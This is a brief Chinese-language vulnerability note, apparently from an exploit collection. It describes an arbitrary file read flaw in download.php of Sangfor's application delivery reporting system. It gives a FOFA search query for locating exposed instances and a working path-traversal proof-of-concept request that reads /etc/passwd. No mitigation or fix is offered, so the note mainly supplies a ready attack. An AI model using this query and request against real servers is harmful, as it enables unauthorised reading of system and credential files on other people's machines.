


# 深信服 应用交付报表系统 download.php 任意文件读取漏洞

## 漏洞描述

深信服 应用交付报表系统 download.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
深信服 应用交付报表系统
```

## FOFA

```
app="SANGFOR-应用交付报表系统"
```

## 漏洞复现

登录页面



验证POC

```
/report/download.php?pdf=../../../../../etc/passwd
```

